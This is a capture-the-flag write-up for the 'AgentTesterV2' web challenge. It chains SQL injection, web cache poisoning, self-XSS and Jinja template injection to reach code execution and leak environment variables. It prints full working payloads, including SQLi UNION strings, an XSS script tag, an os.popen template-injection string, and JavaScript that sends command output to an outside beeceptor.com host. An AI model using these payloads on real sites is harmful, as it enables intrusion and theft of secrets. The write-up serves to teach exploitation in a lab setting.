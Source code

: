 # AgentTesterV2 WriteUp
The challenge was an updated version of the **AgentTester** challenge, thats why i'll only summarize some of the already known steps. The challenges differ because the passwords are hashed now and we can't just login anymore.

# Challenge Setup
The websites provides a input form which lets you test a useragent.
The functionality is hidden behind a login but we can register new accounts. 
Since we have the source code we know that the flag is stored inside an environment variable.

We also know from the previous challenge that we can gain code execution once we reach the **/debug** endpoint with admin privileges.

# Issueing arbitrary requests
The site uses puppeteer to open a browser and issue requests to google.com with our selected user-agent.
If you solved the first challenge you know there is a sql-injection reachable via the user-agent input.

```python
  query = db.session.execute("SELECT userAgent, url FROM uAgents WHERE userAgent = %s'" % uAgent).fetchone()
```

In the first challenge we could simply get the admin password by entering:

```' Union Select GROUP_CONCAT(password) as 'userAgent', 'https://example.com' as 'url' FROM user --```

In the updated version this approach does not work since the **passwords are hashed now**.
```python
    bcrypt.hashpw(password.encode(), current_salt).decode()
```
The sqli now returns "$2b$12$ROJ9y4KrrNx7PiKaOh9lmOPnRBnQfkedGq4r4jWa.Vp/SYQYD8E/e" and I did not even bother to crack it.

We can still use the sqli to set an arbitrary location/user-agent for the browser to visit:

```' Union Select 'asdf' as 'userAgent', 'https://ghjkl.free.beeceptor.com' as 'url```

By setting the url to a beeceptor url we can see the headers and body that the browser has set, 
but there is nothing interesting to see since the cookie has a domain set and it isn' accessible by javascript either.

```javascript
    const cookies = [{
    'name': 'auth2',
    'value': '<REDACTED>',
    'domain': base_url,
    'httpOnly': true
  }];
```
We have blind SSRF which isn't of any use currently. :(

# Failed attempts
I tried letting the puppeteer browser (which has the admin cookie set) visit various pages but found nothing of use.
After a while i noticed that since its headless browser and not just a request that is issued that 
i can let the admin visit a site that i created and execute arbitrary javascript on my page.

When thinking of client side attacks the first thing that comes to mind is XSS.
So i tried looking for reflected xss in the success/error parameters of the login page, but no luck since jinja escapes malicious characters.

The second thing i thought of was **CSRF**. I can simply let send a post request to the **/debug** endpoint and gain code execution.
I know that CORS blocks the response of the post call but I could still exfiltrate data using curl.

```javascript
   var first = new XMLHttpRequest();
    var maliciousurl = 'http://challenge.nahamcon.com:30612/debug';
    first.open('POST', maliciousurl);
    first.withCredentials = true;
    first.onload = reqListener;
    first.send("code={{request.application.__globals__.__builtins__.__import__('os').popen('curl https://ghjkl.free.beeceptor.com').read()}}");
```

After trying for some time and different variations of the payload i admitted to myself that this wasn't the correct route and took a break.
I don't exactly know why it faild either flask or chromes same-site per default.

# Self XSS + Web Cache Poisoning
The next day i decided look at the **nginx.conf**.
The thing that caught my attention almost immediatly was:
```proxy_cache_key $request_uri$http_user_agent;```

If you haven't been living under a rock the last year you have read @albinowax research on webcache poisoning:
https://portswigger.net/web-security/web-cache-poisoning

Since the cache key consists of **url + useragent** every request to a profile url with a specific user-agent is cached for 10 seconds.

The first thing I tried was letting the admin visit the url **http://challenge.nahamcon.com:31220/profile/1** (1 is the admin id) with **user-agent: asdf**

Then i issued the a request to the same url with the same user-agent.

```curl -H "Cookie: auth2=eyJpZCI6Mn0.YE3nwQ.1VKe6fgmTWvSNy5B-VWTRlGQN4M" http://challenge.nahamcon.com:31220/profile/1 -A asdf```

It worked i got the cached response with the admin email: admin@admin.com and about field, but the profile does not contain anything interesting to work with.

After a while I came to the conclusion that i can let the admin visit the cached version of my own profile and I began searching for an Self-XSS.
The first and spimplest payload i tried worked: 
```"><script>alert(1)</script>```

Now i knew what i had to do: 
- Xss myself and send a request to the debug endpoint
- Let nginx cache the site with a specific user agent
- Let the admin visit my profile with that user agent
- Admin sends the post request to the /debug endpoint and code execution 


My first attempt of the xss payload:
```javascript
var first = new XMLHttpRequest();
var maliciousurl = 'http://challenge.nahamcon.com:31220/debug';
first.open('POST', maliciousurl);
first.withCredentials = true;
first.onload = reqListener;
first.send("code={{request.application.__globals__.__builtins__.__import__('os').popen('getenv').read()}}");

function reqListener() {
    var exfiltraterequest = new XMLHttpRequest();
    var maliciousurl = 'https://asdfg.free.beeceptor.com/result';
    exfiltraterequest.open('POST', maliciousurl);
    exfiltraterequest.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    exfiltraterequest.send('responsehtml=' + encodeURIComponent(String(this.responseText)));
};
```
### Code execution
The rce part is the same as in AgentTesterV1 the **/debug** endpoints renders an in the body provided template string.
```python
        code = request.form.get("code", "<h1>Safe Debug</h1>")
        return render_template_string(code)
```
Its common knowlege that you can gain code execution by rendering a string with an injected template, just google **jinja template injection**.

```{{request.application.__globals__.__builtins__.__import__('os').popen('getenv').read()}}```

This payload executes the command **getenv** and the post request then returns all environment variables which also contains our flag.

I base64 encoded the xss payload went to my profile and inserted:

```"><script>eval(atob("base64_encoded_payload"))</script>```

I fiddled around with the xss payload for a while till the request to the debug endpoint worked correctly in my browser and I decided to use fetch (because i was too stupid to get the XMLHttpRequest post to work :/ ). 
The first success was when i saw a request on my beeceptor url on the /result endpoint, but the response html was just the string "Safe Debug".

## Final xss payload
```javascript
fetch("/debug",
{
    method: "POST",
    headers: {"content-type": "application/x-www-form-urlencoded" }
    body: data
})
.then(function(res){ res.text().then(e=>{
 var exfiltraterequest = new XMLHttpRequest();
    var maliciousurl = 'https://asdfg.free.beeceptor.com/result';
    exfiltraterequest.open('POST', maliciousurl);
    exfiltraterequest.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    exfiltraterequest.send('responsehtml=' + encodeURIComponent(String(this.responseText)));
})
```

After making sure that the xss attack works on my end I was ready to cache the response and serve it to the admin.

Making sure the response for my profile is cached:

**curl -H "Cookie: auth2=eyJpZCI6Mn0.YE3nwQ.1VKe6fgmTWvSNy5B-VWTRlGQN4M" http://challenge.nahamcon.com:31220/profile/2 -A asdf**

After this request my profile is now cached for the user-agent asdf for 10 seconds.

Enter input for user Agent Test:
```' Union Select 'asdf' as 'userAgent', 'http://challenge.nahamcon.com:31220/profile/2' as 'url```

After sending this request he puppeteer browser starts visits my profile with the user-agent and gets serverd the cached xss payload.

After a few seconds I saw a request to the /result endpoint on my beeceptor endpoint and I was so happy when i saw that the body contained all the environment variables now just look for the **CHALLENGE_FLAG** variable to get the flag.

This was my first writeup so if you have any questions or suggestions you can reach me on twitter [@alkiiis](https://twitter.com/alkiiis)
